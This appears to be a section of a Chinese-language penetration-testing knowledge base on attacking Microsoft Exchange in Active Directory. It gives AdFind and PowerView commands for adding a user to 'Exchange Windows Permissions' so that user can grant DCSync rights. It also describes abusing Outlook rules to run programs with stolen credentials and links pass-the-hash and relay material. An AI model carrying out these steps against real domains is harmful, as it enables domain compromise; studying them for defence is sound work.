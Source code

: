 ```bash
# 查看 Organization Management 对 Exchange Windows Permissions 或 Exchange Trusted Subsystem 有 GenericAll 权限
AdFind.exe -h 192.168.123.123 -b "DC=island,DC=com" -f "|(name=Exchange Windows Permissions)(name=Exchange Trusted Subsystem)" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;FC;;;"Organization Management" -recmute

# PowerView.ps1
# 通过 Organization Management 组成员将任意用户添加至 Exchange Windows Permissions 或 Exchange Trusted Subsystem
# 当然，也可以将该组成员自身添加至 Exchange Windows Permissions 或 Exchange Trusted Subsystem
# Add-DomainGroupMember 不支持域外指定域控
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "zhangsan" -Verbose
Get-DomainGroupMember -DomainController 192.168.123.123 -Domain island.com -Identity "Exchange Windows Permissions" -Recurse -Verbose
Remove-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "zhangsan" -Verbose

# 之后就跟 Exchange 机器账户利用方式一样，zhangsan 可以给别人添加 Dcsync 权限
```

---

### PTH

- [pentest-tools-public/Pass-to-hash-EWS](https://github.com/pentest-tools-public/Pass-to-hash-EWS)

---

### relay

- [Exchange 中继](../../OS安全/实验/NTLM中继.md#exchange中继)

---

### OUTLOOK 命令执行

**描述**

OUTLOOK 客户端有一个 规则与通知 的功能，通过该功能可以使 outlook 客户端在指定情况下执行指定的指令。若我们获得某用户的凭证，可以通过此功能设置 “用户收到含指定字符的邮件时 执行指定的指令比如 clac.exe”，当用户登录 outlook 客户端并访问到此邮件时，它的电脑便会执行 calc.exe。

但是，当触发动作为启动应用程序时，只能直接调用可执行程序，如启动一个 exe 程序，但无法为应用程序传递参数，想要直接上线，我们可以将 EXE 放到某共享目录下，或者直接上传到用户的机器。

具体步骤为打开规则与通知功能，然后新建功能，在接收到某条件邮件时启动指定应用程序

实战中不太好利用,微软在 2017 年陆续修复了这些攻击面：默认禁止规则启动应用程序和运行脚本；默认禁止自定义表单执行脚本且需要将每一个自定义表单消息类注册为受信任的表单消息类；默认关闭主页功能。

**相关文章**
- https://tttang.com/archive/1487/#toc_outlook
- [利用Outlook规则，实现RCE](https://mp.weixin.qq.com/s/hrWONscsYn9TX0L3sLleyA)

---

## 漏洞

### CVE-2018-8581 任意用户伪造漏洞
- [PushSubscription abuse (CVE-2018-8581)](../../OS安全/实验/NTLM中继.md#pushsubscription-abuse-cve-2018-8581)

---